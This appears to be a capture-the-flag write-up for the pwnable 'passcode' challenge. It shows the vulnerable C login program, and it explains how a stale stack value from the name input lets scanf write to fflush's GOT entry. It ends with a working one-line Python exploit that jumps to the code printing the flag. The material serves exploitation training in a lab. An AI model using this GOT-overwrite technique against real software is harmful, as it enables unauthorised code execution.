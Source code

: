 # pwnable games

## passcode

```c
void login(){
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);
    fflush(stdin);

    // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    printf("enter passcode2 : ");
        scanf("%d", passcode2);

    printf("checking...\n");
    if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
        exit(0);
        }
}

void welcome(){
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}

int main(){
    printf("Toddler's Secure Login System 1.0 beta.\n");

    welcome();
    login();
    // something after login...
    printf("Now I can safely trust you that you have credential :)\n");
    return 0;
}
```

`scanf("%d", passcode1);` the right implementation >> `scanf("%d", &passcode1);`

so by this way we scan the value into the value of passcode one insted of its address.
but this could be udfel for us.

we could overwrite passcode1 with welcome() input but we can't write any value in passcode2

so we can easly overwrite passcode1 with GOT addr from fflush()

```sh
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>: jmp    DWORD PTR ds:0x804a004
   0x08048436 <+6>: push   0x8
   0x0804843b <+11>: jmp    0x8048410
End of assembler dump.
```

and write the address of `system("/bin/cat flag");` to it

```sh
    ...........................
   0x080485d7 <+115>: mov    DWORD PTR [esp],0x80487a5
   0x080485de <+122>: call   0x8048450 <puts@plt>
   0x080485e3 <+127>: mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>: call   0x8048460 <system@plt>
    ...........................
```

the above block is the assembly of:

```c
    printf("Login OK!\n");
    system("/bin/cat flag");
```

now we got GOT address `0x804a004` and our code address flow to cat flag `0x080485d7` but we need it as integer **134514135** for scanf `scanf("%d", passcode1);`

finally our exploit:

```sh
passcode@pwnable:~$ python -c 'print 96*"A" + "\x04\xa0\x04\x08\n" +"134514135\n"'|./passcode

Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�!
enter passcode1 : Login OK!
Sorry mom.. I got confused about scanf usage :(
Now I can safely trust you that you have credential :)
```

this what we did:

```md
scanf("%d", 0x804a004); << 134514135
0x804a004               // the address of GOT from calling fflush()
134514135 == 0x080485d7 // the address of our code flow
```
